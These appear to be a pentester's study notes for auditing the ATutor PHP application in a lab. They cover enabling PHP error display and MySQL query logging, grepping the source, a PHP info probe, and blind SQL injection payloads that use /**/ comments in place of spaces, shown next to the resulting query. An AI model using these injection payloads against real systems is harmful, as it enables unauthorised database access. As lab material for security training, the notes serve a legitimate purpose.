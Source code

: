 ### Turn on Errors in PHP

> sudo nano /etc/php5/apache2/php.ini 
> Search (ctrl+w) for "display_errors = " and change Off to On
> sudo systemctl restart apache2

### Turn on logging in MySQL

> sudo nano /etc/mysql/my.cnf 
> Search (ctrl+w) for "general_log_file", enable this and general_log
> sudo systemctl restart mysql

Monitor MySQL Queries:
> tail -f /var/log/mysql/mysql.log

### Grep search: 
> grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" --color

### Information Gathering

> echo "<?php var_dump(get_magic_quotes_gpc()); ?>" > info.php
> echo "<?php echo 'PHP Version: ' . phpversion().\"\r\n\"; ?>" >> info.php

### SQL inline comments to replace spaces

> mysql> select/**/1;

### SQL Blind Injection Payloads

%23 is # sign, interpreted by MySQL as a comment, terminating the rest of the query

True:
> AAAA')/**/or/**/(select/**/1)=1%23
> select count(*) FROM AT_members M WHERE (first_name LIKE '%AAAA')/**/OR/**/ (select/**/1)=1#

False:
> AAAA')/**/or/**/(select/**/1)=0%23
